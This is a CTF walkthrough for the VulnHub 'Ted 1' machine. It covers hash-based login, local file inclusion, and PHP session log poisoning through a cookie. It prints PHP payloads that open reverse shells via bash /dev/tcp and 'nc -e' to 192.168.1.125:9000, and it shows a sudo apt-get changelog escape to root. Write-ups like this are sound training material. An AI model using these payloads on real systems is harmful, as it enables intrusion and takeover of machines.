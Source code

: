 ## Ted 1

https://www.vulnhub.com/entry/ted-1,327/

### www-data

#### User Authentication

We can enumerate user at `authenticate.php` and discover user admin.

If I send admin:admin at login, I get  "Password hash is not correct, make sure to hash it before submit.".

If I send admin in md5, I get "Password or password hash is not correct, make sure to hash it before submit."

If I send admin in sha256, no error is displayed, and we login in. For some reason, the hash needs to be in uppercase.

<br>

#### LFI and Log Poisoning

There is LFI at `search` with `../../../etc/passwd`. Actually, you can just put the absolute path that the file will be read: `/etc/passwd`.

We test some files until reache PHP Session Files at `/var/lib/php/sessions/sess_pd262kbl40c3gbbvstp4er3hv4`.

We see that the cookie is being reflected, so we can log poison it changing `user_pref`.
```
# This doesn't works because the semicolon is ending the cookie
<?php echo system("ls"); ?>

# Since the close tag imples a semicolon, we can't avoid remove it
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.1.125/9000 0>&1'")?>

# We could have used nc
<?php system("nc 192.168.1.125 9000 -e /bin/bash")?>
```

<br>

### Privilege Escalation
```
sudo -l
(root) NOPASSWD: /usr/bin/apt-get

apt-get changelog apt
!/bin/sh
```
